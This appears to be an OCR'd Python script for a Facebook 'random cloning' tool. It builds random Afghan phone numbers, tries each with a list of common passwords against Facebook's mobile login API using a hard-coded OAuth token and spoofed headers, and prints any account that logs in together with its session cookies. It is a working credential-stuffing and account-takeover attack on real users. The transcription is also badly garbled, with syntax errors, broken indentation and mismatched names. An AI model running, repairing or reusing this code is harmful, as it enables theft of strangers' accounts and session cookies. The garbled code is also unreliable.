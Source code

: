import os,time,random,string,sys,uuid,json
for concurrent.futures import ThreadpoolExecutor

import requests

numbs = []
loop=0
ok_ids=[]
cp_ids=[]


logo ='''











def clear():
    os.system('clear')
	print(logo)
	
def main():
		print('l---------------------------------------')
		
		def main():
			clear()
			line()
			print('[1]Random cloning')
			print('[1]Contact Admin')
			print('[1]Exit Program')
			line()
		inp = str(input(' l Choose : ')).strip()
  if inp in ['1';'01']:
	randomClone()
  elif inp in ['2':'02']:
	os.system('xdg-open https://t.me/Momand Technical Skills')
	elif inp in ['3':'03']:
   print(' l Have a nice day')
	 exit()
 else:
		print(' | option not found in menu')
		time.sleep(2)
		main()
		
  
def randomClone():
	clear()
	line()
	print(' l Codes for afg : 078, 079, 070, 073, 072')
	print(' |Codes for worldwide : 9379, 9370, 9378, 9379')
	line()
	inp = int(input(' | Choose Code : ' ))
	try:
		limit = int(input('Put limit : '))
		except:
			limit = 5000
		for _ in range(limit):
			numb = ''.join(random.choice(string.digits))for _ in range(7))
			numbs.append(numb)
			with ThreadpoolExecutor(Max_workers = 30) as wahaj 
			clear()
			line()
			ran = str(len(numbs))
			print(' | method : Random Cloning')
			print(f' | Limit : {ran}')
			print(' | ON/OFF Airplane mode before use')
			line()
			for numbers in numbs:
				ids = inp + number
				password = [numbe,ids,'khan123','Afghanistan','Kabul123','123456','۱۲۳۴۵۶۷۸'] 
				wahaj.submit(startClone,ids, passwords)
				

def startClone(ids,password):
	try:
		global loop
		sys.stdout.write(f'\r | [wahaj-Clone] %s/%s/%s'%(loop,len(ok_ids),len(cp_ids)))
		for pas in passwords:
			useragent =''
	data={
			'adid':str(uuid.uuid4()),
			'format': 'json',
			'device_id': str(uuid.uuid4()),
			'email': ids,
			'password': pas,
			'generate_analytics_claims': '1',
			'community_id': '',
			'cpl': 'true',
			'try_num'1',
			'family_device_id': str(uuid.uuid4()),
			'credentials_type': 'password',
			'source': 'login',
			'error_detail_type': 'button_with_disabled',
			'enroll_misauth': 'false',
			'generate_session_cookies': '1',
			'generate_machine_id': '1',
			'currently_logged_in_userid': '0',
			'locale': 'en_GB',
			'client_country_code': 'GB',
			'fb_api_req_friendly_name': 'authenticate'}
	
	        header ={
	            'User-Agent': useragent,
	            'Accept-Encoding':  'gzip, deflate',
	            'Accept': '*/*',
	            'Connection': 'keep-alive',
	            'Auyhorization': 'OAuth 350685531728|62f8ce9f74b12f84c123cc23437a4a32',
	            'X-FB-friendly-Name': 'authenticate',
	            'X-FB-Connection-Bandwidth': str(random.randint(20000,40000)),
                'X-FB-Net-HNI': str(random.randint(20000,40000)),
                'X-FB-SIM-HNI': str(random.randint(20000,40000)),
                'X-FB-Connection- Type': 'MOBILE.LTE',
                'Content- Type': 'application/x-www-form-urlencoded',
                'X-FB-HTTP-Engine': 'Liger'}
      url = 'http://b-api.facebook.com/method/auth.login'
   data1 = requests.post(url,data=data,headers=header).text
   data2 = json,loads(data1)
   if 'session_key' in data2:
   	print(f'\r | [Wahaj-OK] {ids} | {pas}')
   cookie = '',''.join(_['name']+'='+_['value'] for _ in data2[session_cookie'])
   print(f'\r | [COOKIE] : {cookie}')
   ok_ids.append(ids)
   break
   else:pass
   loop+=1
except requests.exceptions.ConnectionError:
  time.sleep(10)
  pass
  except Exception as error:
  	print(error)
				
			
	
			
	
	

	

	main()
